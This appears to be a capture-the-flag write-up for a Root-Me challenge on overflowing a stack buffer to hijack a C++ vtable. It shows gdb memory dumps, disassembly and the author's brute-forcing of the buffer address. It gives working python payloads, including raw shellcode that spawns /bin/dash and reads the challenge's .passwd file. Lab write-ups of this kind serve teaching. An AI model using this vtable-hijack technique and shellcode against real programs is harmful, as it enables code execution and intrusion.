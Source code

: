 # rootme : ELF x86 - Stack buffer overflow - C++ vtables


g++ places the vtable at the end of the object.  Windows visual c++ places vtable at start of object.

In this challenge the object contains only the vtable and follows a buffer that can be overflowed, avoiding compiler differences.

    class:
        char str[80];
        formatter * m_pFormatter ;

    vtable:
        RTTI
        displayName
        format


This function accesses the object, dereferences the vtable pointer and calls the format function pointer.

    / (fcn) sym.MyStringFormatter::display 39
    |   sym.MyStringFormatter::display (int arg_8h);
    |           ; arg int arg_8h @ ebp+0x8
    |           ; var int local_4h @ esp+0x4
    
    |           0x08048a0b      8b4050         mov eax, dword [eax + 0x50]
    |           0x08048a0e      8b00           mov eax, dword [eax]
    |           0x08048a10      83c008         add eax, 8
    |           0x08048a13      8b08           mov ecx, dword [eax]
    
    |           0x08048a25      ffd1           call ecx


Buffer address:

    gdb$ x/1wx $ebp+8
    0xbffffb50:     0xbffffb60

Object address:
    
    gdb$ x/1wx 0xbffffb60+0x50
    0xbffffbb0:     0x0804b008

Vtable address:
    
    gdb$ x/10xw 0x0804b008
    0x804b008:      0x08048bd8

Vtable:
    
    gdb$ x/4wx 0x08048bd8
    0x8048bd8 <_ZTV14LowerFormatter+8>:     0x0804894c      0x08048956      0x0804896a


Create vtable in buffer and call into shellcode.  Easy.
    
    Buf: <junk> <junk> <buf+8> <junk> <buf+20> <shellcode> <buf+8>
                       vtable         func                  obj


Except that even after removing extra env var from gdb, the buffer address of 0xbffffb60 still wasn't correct.  Utter headache..

How do you find correct address when no core dump files available?  By using the valid addresses to get normal output.


Use correct object address:

    python -c 'print "5\n2\n" + "AAA" + "AAAA" + "BBBB" + "CCCC" + "\x90" * 60 + "\x08\xb0\x04\x08"' | ./ch20

Use correct vtable address but in buffer - I had to brute force the buffer address:

    python -c 'print "5\n2\n" + "AAA" + "\xd8\x8b\x04\x08" + "BBBB" + "CCCC" + "\x90" * 60 + "\x98\xfb\xff\xbf"' | ./ch20

Use correct function pointer but in buf+16:

    python -c 'print "5\n2\n" + "AAA" + "\x98\xfb\xff\xbf" + "BBBB" + "\x6a\x89\x04\x08" + "\x90" * 60 + "\x98\xfb\xff\xbf"' | ./ch20

Add the shellcode with command:

    (python -c 'print "5\n2\n" + "AAA" + "\x98\xfb\xff\xbf" + "BBBB" + "\xa8\xfb\xff\xbf" + "\x90" * 14 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41" + "\x98\xfb\xff\xbf"' ; /bin/echo "cat .passwd") | ./ch20


Solved!

